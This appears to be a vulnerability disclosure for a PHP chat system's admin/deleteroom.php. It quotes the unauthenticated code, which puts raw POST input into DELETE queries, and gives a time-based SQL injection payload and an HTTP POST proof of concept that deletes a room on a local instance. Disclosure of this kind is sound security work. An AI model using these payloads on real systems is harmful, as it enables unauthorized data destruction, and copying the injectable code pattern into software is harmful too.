


# Chat System has unauthorized access vulnerability in `/admin/deleteroom.php`


## supplier


https://code-projects.org/online-notice-board-using-php-source-code/


## Vulnerability file


/admin/deleteroom.php


## describe


Chat System allows attackers to perform unauthorized actions through this interface. Due to the lack of session authentication and other security measures, attackers can execute SQL injection and arbitrary room deletion.

- **(Parameter key-value: id=4' or sleep(5)#&del=1)** (SQL injection)
- **(Parameter key-value: id={value}&del=1)** (`value` represents the `id`, allowing unauthorized enumeration and deletion)


## **Code analysis**


```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

The lack of session and other authentication mechanisms allows any user to perform operations.


## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=1&del=1
```


## Demonstration Example


**The current database table: `chatroom`.**


**Operation performed by an unauthenticated user.**





**Execution Result: `chatroomid = 2` has been deleted.**



